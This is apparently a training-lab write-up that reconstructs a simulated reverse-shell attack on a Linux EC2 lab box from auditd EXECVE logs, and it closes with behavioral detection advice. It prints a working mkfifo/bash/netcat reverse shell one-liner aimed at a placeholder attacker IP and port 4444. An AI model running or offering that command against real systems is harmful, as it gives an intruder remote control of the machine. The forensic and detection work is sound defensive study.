



# Day 03 — Host-Level Log Reconstruction (auditd + Reverse Shell)

## Objective

Reconstruct a simulated reverse shell attack on a Linux EC2 instance using audit telemetry and system logs.

Focus: behavioral reconstruction from execution logs.

---

## Environment

- Two-box EC2 lab (csoc-lab-attacker + csoc-lab-target)
- Ubuntu
- auditd enabled
- AWS SSM used for access
- No public SSH exposed

---

## Attack Simulation (Previously Executed)

Reverse shell created using FIFO pipe:

```bash
mkfifo /tmp/f
cat /tmp/f | /bin/bash -i 2>&1 | nc <attacker_ip> 4444 > /tmp/f
```
Confirmed interactive shell on attacker listener.

---

## Investigation Approach

Used auditd execution telemetry to reconstruct behavioral chain.

### Command
```bash
sudo ausearch -m EXECVE -ts 02/25/26 19:14:00 -te 02/25/26 19:20:00 -i
```

Filtered for:
- mkfifo
- bash -i
- nc

### Behavorial Execution Chain (Filtered View)

---

## Findings

Sequential EXECVE events confirm behavorial chain reconstruction.

### 1) Named Pipe Creation
```code
exe=/usr/bin/mkfifo
a0=mkfifo a1=/tmp/f
uid=ssm-user
tty=ptsX (pseudo-terminal session)
```

### 2) Interactive Bash Execution
```code
exe=/bin/bash
a0=/bin/bash a1=-i
uid=ssm-user
tty=ptsX (pseudo-terminal session)
```

### 3) Netcat Outbound Connection
```code
exe=/usr/bin/nc.openbsd
a0=nc a1=172.31.19.30 a2=4444
uid=ssm-user
tty=ptsX (pseudo-terminal session)
```

---

### Parent Process Correlation

Correlated parent PID (25103) via audit telemetry to confirm `/usr/in/bash` directly spawned `/usr/bin/nc.openbsd` within AWS SSM confinement context.


## Incident Narrative

On Feb 25, 2026 at approximately 19:15 UTC, the user `ssm-user` executed `/usr/bin/mkfifo` to create a named pipe in `/tmp`. An interactive `/bin/bash -i` shell was then launched within the same pseudo-terminal session (`tty=ptsX (pseudo-terminal session)`). The shell was piped into `/usr/bin/nc.openbsd`, initiating an outbound TCP connection to 172.31.19.30:4444. All activity occurred under AWS SSM Session Manager context.

---

## Detection Insight

Single indicators are weak.

High-confidence detection requires correlation of:
- mkfifo execution
- Interactive bash -i
- nc outbound connection
- Long-lived ESTAB TCP session
- Non-standard destination port

Behavioral detection > port-based detection.